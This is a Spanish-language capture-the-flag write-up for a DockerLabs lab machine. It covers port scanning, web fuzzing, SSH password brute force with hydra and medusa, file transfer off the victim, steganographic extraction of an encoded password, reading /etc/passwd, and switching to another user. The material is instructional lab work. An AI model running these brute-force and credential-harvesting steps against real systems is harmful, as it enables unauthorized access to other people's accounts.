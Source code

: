 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.


# RECONOCIMIENTO


## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing



El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos export TERM=xterm.

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

## Enumeracion entorno

En primer lugar veremos si tenemos privilegios `sudo` mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png)

Vamos a comprobar si tiene información oculta. En primer lugar nos la descargamos, para ello lo vamos a hacer de dos modos diferentes, es bueno saver varias maneras de hacer las cosas ya que no siempre funcionan los mismos metodos.

~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png)

El segundo sería crear un servidor temporal con python y descargarla desde el lado del atacante.

~~~ bash
Victima
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png)
~~~
Atacante
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png)


## Esteganografía y escalada de privilegios

Para comprobar si tiene informacion oculta o metadatos, usaremos la herramienta steghide.

Con las opciones extract y sf estraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~
![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png)

Probamos el resultado para escalar a root pero no hay suerte. Revisamos el archivo /etc/passwd para ver los usuarios.
Obseramos tres usuarios activos, oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png)

Intentamos usar la contraseña encoontrada en Oscar y parece que funciona.
~~~
su oscar
whoami
~~~
![whoami](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png)







